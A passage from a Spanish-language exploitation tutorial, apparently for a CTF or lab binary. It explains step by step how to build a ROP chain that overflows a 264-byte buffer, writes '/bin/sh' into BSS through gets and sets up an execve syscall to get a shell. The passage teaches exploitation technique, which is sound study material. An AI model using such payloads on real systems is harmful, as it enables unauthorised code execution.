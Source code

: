 - A RDX un 0 (lo hacemos directamente)


Respecto a lo de RDI, la dirección 0x40141a tiene el gadget *pop rsi; pop r15; ret*. Lo de R15 en este caso nos da igual así que podemos meter cualquier cosa, pero no es problema porque podemos meter un valor en RSI. Entonces cuando vayamos a crear el payload final, haremos algo como esto:

```
payload += p64(0x40141a) <== La dirección de POP RSI; POP R15; RET

payload += p64(0)        <== Lo que meteremos en RSI

payload += p64(0)        <== Lo que meteremos en R15, podría ser cualquier cosa salvo que sea un registro que nos fuese relevante
```

Ahora tenemos que meter en una dirección el "/bin/sh" y meter esa dirección en RDI. Para eso vamos a almacenar lo que mande el usuario en una dirección en la que se pueda escribir. La gente usa la zona BSS pero no directamente esa dirección sino que dejamos como 0x200 más, 0x604440.

![Screenshot](images/Screenshot_18.jpg)

Con esto en mente la idea sería utilizar un código parecido a esto:

```
payload += p64(0x40141c) <== La dirección de POP RDI; RET

payload += p64(0x604440) <== La dirección de BSS donde vamos a escribir

payload += p64(addr_gets)<== Lo que escribiremos, que será lo que envíe el usuario (supongo xD)
```

Con esto nos quedaría una primera parte del exploit:

```
payload = "A"*264   <== A partir de ese caracter tenemos el buffer overflow

payload += p64(0x40141c) <== La dirección de POP RDI; RET

payload += p64(0x604440) <== La dirección de BSS donde vamos a escribir

payload += p64(addr_gets)<== Lo que escribiremos, que será lo que envíe el usuario


payload += p64(0x400121) <== La dirección de POP RAX; RET

payload += p64(59)       <== El valor 59 para hacer la llamada EXECVE


payload += p64(0x40141c) <== La dirección de POP RDI; RET

payload += p64(0x604440) <== La dirección de BSS donde hemos escrito, luego apunta a un string "/bin/sh" (es lo que queríamos)


payload += p64(0x40141a) <== La dirección de POP RSI; POP R15; RET

payload += p64(0)        <== Lo que meteremos en RSI

payload += p64(0)        <== Lo que meteremos en R15, cualquier basura



payload += p64(0x4023f5) <== La dirección de POP RDX; RET

payload += p64(0)        <== Lo que meteremos en RDX


```